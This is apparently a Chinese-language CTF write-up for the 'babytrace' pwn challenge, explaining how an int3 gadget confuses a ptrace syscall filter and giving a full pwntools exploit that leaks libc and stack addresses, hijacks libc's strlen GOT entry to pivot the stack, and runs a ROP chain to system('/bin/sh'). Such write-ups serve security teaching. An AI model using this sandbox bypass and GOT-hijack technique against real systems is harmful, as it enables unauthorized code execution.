


# babytrace

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.5|

## 解题思路

### 绕过ptrace的监控

程序使用ptrace来监控syscall，按照`ptrace(PTRACE_SYSCALL, ...)`在文档中所言，
会在系统调用进入和退出时分别唤醒tracer。如果没有任何异常的话，我们就只能按照要求，
只能执行`read, write, newfstat, exit, exit_group`这么几个系统调用。

> [!NOTE]
> 我一开始不知道ptrace syscall在进入和退出时都会通知tracer，以为有一半的系统调用没有限制，
> 导致我一直在尝试让我想做的事落在没有限制的哪一半，还是对ptrace的机制不够熟悉啊。

我们需要的，就是需要通过什么办法，唤醒tracer，使调试关系错乱，进入syscall的时候没检查，
退出syscall的时候有检查，这样就拦不住任何东西了。接下来就是一个关键的指令出场了：`int3`。
这个指令能够触发系统中断表中的第3项，唤醒tracer，使tracee陷入调试状态，
就好像ptrace syscall执行了一样，从而骗过父进程，以为进入系统调用，实则并没有。

那么怎么找这样的gadget呢？ropper和ROPgadget都找不到，于是我写了这么一段代码，
手动寻找`int3` gadget。

```python
#!/bin/python
from pwn import *
libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

int3s = list(libc.search(b'\xcc', executable=True))
for idx, addr in enumerate(int3s):
    disas = libc.disasm(addr, 30)
    if 'ret' not in disas:
        continue
    retoff = disas.find('ret')
    badoff = disas.find('(bad)')
    callof = disas.find('call')
    if badoff != -1 and badoff < retoff or callof != -1 and callof < retoff:
        continue
    print(f"{idx}th gadget")
    print(disas)
    pause()
```

经过仔细的挑选后，第726个gadget是最好的选择：它只是触发了`int3`而几乎没有任何副影响。



### 构造rop链

找到gadget后，就是考虑如何拿到flag了。题目给了两次任意读的机会和一次任意写的机会，
看了[官方wp](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)后，觉得官方解法还是很妙的。

只有两次机会读，泄露stack和libc是最合适的，因此最好能直接控制执行流到libc上。
否则就要爆破栈或者PIE了。2.35的libc的GOT表还是可以写的，因此可以借助任意写，
劫持`libc.got['strlen']`，通过将栈抬高然后返回，就可以执行我们输入的ROP链，大概是这样：



这样就可以实现任意写后`puts -> +stack -> rop`。最后构造rop链加上int3，拿shell。

> [!TIP]
> 这道题不能使用`execve`，因为执行的shell启动后仍然处于被调试状态，
> 各种syscall会在返回时被赋值为`-1`，从而被认定为失败，导致开不成shell。
> 反倒是`system`可以，因为会先fork一次，而题目没开`PTRACE_O_TRACEFORK`，
> 因而fork后执行syscall不受限制。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './babytraced'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'tb setter')
    else:
        t = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

    def setval(buf: bytes, idx: int, val: int):
        t.sendlineafter(b'choose', b'1')
        t.sendafter(b'recv', buf)
        t.sendlineafter(b'which', str(idx).encode())
        t.sendlineafter(b'set', str(val).encode())

    def getval(idx: int) -> int:
        t.sendlineafter(b'choose', b'2')
        t.sendlineafter(b'which', str(idx).encode())
        t.recvuntil(b'=')
        return int(t.recvline(), 10)

    libc_base = getval(-2) - libc.symbols['_IO_2_1_stderr_']
    success(GOLD_TEXT(f"Leak libc_base: {libc_base:#x}"))
    libc.address = libc_base
    stack_base = getval(-4) - 0x20
    success(GOLD_TEXT(f'Leak stack_base: {stack_base:#x}'))

    gadgets = ROP(libc)
    int3 = libc_base + 0xf6d43      # int3; nop; ret;
    jmp2buf = libc_base + 0x114b5c  # add rsp, 0x68; ret;
    chain = flat(int3,
                 gadgets.rdi.address, next(libc.search(b'/bin/sh')),
                 gadgets.ret.address, libc.symbols['system'],
                 gadgets.rdi.address, 0, libc.symbols['_exit'])
    offset = (libc.got['strlen'] - stack_base) // 8
    setval(flat({ 0: chain, 0x100: b'flag\0' }, filler=b'\0'), offset, jmp2buf)

    t.clean()
    t.interactive()
    t.close()
```

## 参考

1. [第八届西湖论剑·中国杭州网络安全技能大赛初赛官方Write Up（下）](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)
